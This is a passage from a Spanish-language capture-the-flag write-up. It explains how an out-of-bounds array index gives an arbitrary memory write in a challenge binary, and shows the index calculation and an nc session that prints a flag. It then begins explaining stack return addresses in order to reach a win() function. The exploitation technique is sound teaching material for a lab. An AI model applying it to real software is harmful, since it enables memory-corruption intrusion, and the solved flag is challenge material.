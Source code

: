 Siguiendo la lógica descrita anteriormente, como `p[i]` accede a la dirección de memoria `&p + i*8`, podemos obtener la siguiente fórmula para escribir en una dirección de memoria arbitraria:

```
indice = (dirección_objetivo - dirección_de_p)/8
```

En nuestro, `dirección_objetivo = 0x4e70f0` (la dirección de `untouchable2` obtenida con `gdb`), y la dirección de `p` es la que nos imprime el programa. Usando python para aplicar dicha fórmula calculamos el índice adecuado según la dirección de `p` y obtenemos la segunda flag:

```
$ python3
>>> (0x4e70f0 - 0x7ffd5c990a20)//8
-17590768980774
>>> 0x123456
1193046
```

```
$ nc localhost 31337
Código secreto de ayuda para flag2: 0x7ffd5c990a20
Introduce un índice: -17590768980774
Introduce un valor: 1193046
ETSIIT_CTF{m4st3r_of_0ut_0f_b0unds_ar1thm3tics!}
```


#### Tercera flag
Para obtener la tercera flag el objetivo no es modificar una variable como en los casos anteriores, sino de alguna forma conseguir ejecutar la función `win()`.

Para ello, es necesario recordar algunos conceptos teóricos. La stack es una región de memoria en la que se guardan variables locales, como el array `p` o la variable `untouchable1`. Sin embargo, también se guarda otra información de forma transparente al programador: direcciones de retorno. Cada vez que se llama a una función se guarda en la pila la dirección de retorno. De esta forma, cuando se termine de ejecutar la función el flujo de ejecución puede continuar por donde iba.

Imaginemos un programa en el que `main()` llame a una función `test()`. El código ensamblador generado sería tal que así:

```
1129 <test>: ...
1137:    ret

1138 <main>: ...
1149:    call 1129 <test>
114e:    ...
```

Cuando `main()` ejecuta la instrucción `call` en la dirección `1149`, ocurren dos cosas. En primer lugar, se guarda en la stack la dirección de la siguiente instrucción, es decir, la dirección `114e`. En segundo lugar, se comienza a ejecutar la función `test()`, en la dirección `1129`. Cuando `test()` termina, ejecuta la instrucción `ret`. Dicha instrucción lo que hace es saltar a la dirección de retorno previamente guardada en la stack, en este caso la dirección `114e`. De esta forma, después de la llamada a la función la ejecución continúa por donde iba.
